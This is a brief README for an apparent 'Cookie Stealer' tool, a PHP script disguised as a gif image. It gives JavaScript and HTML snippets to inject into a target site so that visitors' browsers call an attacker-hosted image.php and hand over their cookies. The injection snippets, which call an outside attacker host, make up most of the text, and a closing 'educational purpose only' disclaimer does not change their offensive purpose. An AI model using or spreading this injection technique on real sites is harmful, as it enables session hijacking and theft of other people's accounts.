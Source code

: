 # Cookie Stealer

A cookie stealer disguised as a gif image.

## Hot to use

Host the *image.php* file wherever you want.

Inject the code on the target

```javascript
let img = new Image();
img.src = "http://yoursite.com/image.php";
document.body.appendChild(img);
```
or in plain html

```html
<img src="http://yoursite.com/image.php">
```

Get them cookies.

## Disclaimer

I'm not responsible for your actions. The code provided here is for educational purpose only. If you find a web site with code injection vulnerability, inform them.


